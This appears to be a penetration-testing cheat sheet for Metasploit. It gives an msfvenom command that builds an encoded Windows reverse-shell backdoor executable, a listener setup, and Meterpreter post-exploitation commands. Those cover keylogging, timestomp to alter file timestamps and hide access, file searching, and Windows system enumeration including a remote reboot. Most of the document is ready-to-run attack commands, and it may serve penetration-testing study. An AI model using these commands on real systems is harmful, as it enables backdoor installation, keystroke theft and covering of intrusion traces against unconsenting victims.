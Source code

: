 # Metasploit

Metasploit Framework is a tool for developing and executing exploit code against a remote target machine. Ruby based modular pentest platform that enable to write, test, and execute exploit code. Contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. Meterpreter is a Metasploit attack payload that provide an interactive shell that can be used to explore the target machine and execute code.

***

## Create the app PE&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
```

***

## Set up listener in metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST VALUE
show options
exploit -j -z # background job
```

***

## If the session catch

```
sessions -i 2    # connect to sessions 2
getuid           # get uid/user
sysinfo          # check the system info, OS, domain
ifconfig         # displays the victim machine's IP address, MAC address, and other information
pwd              # view current working directory  
ls               # list the files in the current working directories
cat [filename]   # read the content of a text file

```

***

## MACE

Modified, Accessed, Created, Entry (**MACE**) to change attributes of a file. While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.

### Display attributes

To leave no trace of these MACE attributes, use the **timestomp** command to change the attributes as you wish after accessing a file.

```
timestomp [file] -v     # display the created, accessed, modified, and entry modified time
```

### Change attributes

```
timestomp [file] -m "DD/MM/YYYY HH:MM:SS"
```

> **-m**: Modified value
>
> **-a**: Accessed value
>
> **-c**: Created value
>
> **-e**: Entry value

***

## search

Can use **search** command to help locate files on the target machine. This type of cmd is capable of searching through the whole system or can be limited to specific folders.

```
search -f [file]
```

***

## Key-logging

Capture all keyboard input from the target system.

```
keyscan_start
```

dumps all captured keystrokes.

```
keyscan_dump
```

***

## idletime

Display the amount of time for which the user has been idle on the remote system.

```
idletime
```

***



## Operate in shell

### Windows

#### Retrieve the directory names with hidden attribute

```
dir /a:h
```

#### List all available services

```
sc queryex type=service state=all
```

#### List details about specific service, display current firewall state

```
netsh firewall show state
```

#### View current firewall settings in the target system

```
netsh firewall show config
```

#### View the details of installed software

```
wmic /node:"" product get name,version,vendor
```

#### Retrieve the processor's details

```
wmic cpu get
```

#### Retrieve login names and SIDs of the users

```
wmic useraccount get name,sid
```

#### Reboot the target system

```
wmic os where Primary='TRUE' reboot
```



<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



